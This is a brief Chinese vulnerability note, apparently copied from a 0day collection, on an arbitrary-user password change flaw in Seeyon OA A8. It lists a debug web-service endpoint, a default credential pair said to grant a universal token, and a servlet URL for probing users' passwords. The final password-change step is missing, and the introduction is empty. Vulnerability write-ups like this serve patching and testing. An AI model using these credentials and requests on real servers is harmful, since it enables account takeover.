

# 致远 OA A8 任意用户密码修改漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/9.html](http://book.iwonder.run/0day/致远 oa/9.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能 Token 之后可以修改任意用户密码。



访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回 false 说明 zw 密码不正确


修改密码


